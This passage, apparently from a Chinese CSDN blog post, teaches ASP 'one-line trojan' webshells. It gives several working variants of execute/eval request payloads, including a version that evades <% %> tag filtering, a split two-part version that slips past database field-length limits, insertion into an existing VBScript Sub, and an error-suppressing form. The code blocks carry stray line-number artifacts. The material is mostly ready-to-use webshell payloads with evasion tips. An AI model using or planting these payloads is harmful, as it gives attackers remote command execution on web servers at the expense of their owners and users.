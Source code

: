 原来代码是<%execute request(“cmd”)%> 把标签修改替换下来 为

<scriptlanguage=[VBScript](https://so.csdn.net/so/search?q=VBScript&spm=1001.2101.3001.7020) runat=server>execute request(“cmd”) 这样就避开了<%,%>符号！

表中数据段限制，一句话木马也写不下的情况

网络中流传的最小的木马代码是<%eval request(“#”)%> 如过连这也写不下怎么办？

将木马分开写就好了！<%Y=request(“x”)%> <%execute(Y)%> 这样分开写提交到数据库就没问题了！

不过，在ACCESS数据库中新增加的数据物理位置是在旧数据之前的，所以要先写<%execute(Y)%>部分。写好后在客户端写密码时除了填写"x"以外的任何字符都可以，如果填了"x"就会出错！

## 插入一句话容易爆错

例如

```csharp
Sub unlockPost()

Dim id,replyid,rs,posttable

id=Request(“id”)

replyid=Request(“replyid”)

If Not IsNumeric(id) or id="" Then
12345678910111213
```

写成

```csharp
Sub unlockPost(<%eval request("#")%>)

Dim id,replyid,rs,posttable

id=Request(“id”)

replyid=Request(“replyid”)

If Not IsNumeric(id) or id="" Then
12345678910111213
```

就可以了，也可以写成带容错语句的格式！！

```csharp
<%if request(“cmd”)<>""then execute request(“cmd”)%>
1
```

### 一句话木马到两句话木马的转型!

一句话木马服务端原型:<%execute request(“value”)%> ,

变形后:<%On Error Resume Next execute request(“value”)%> ,
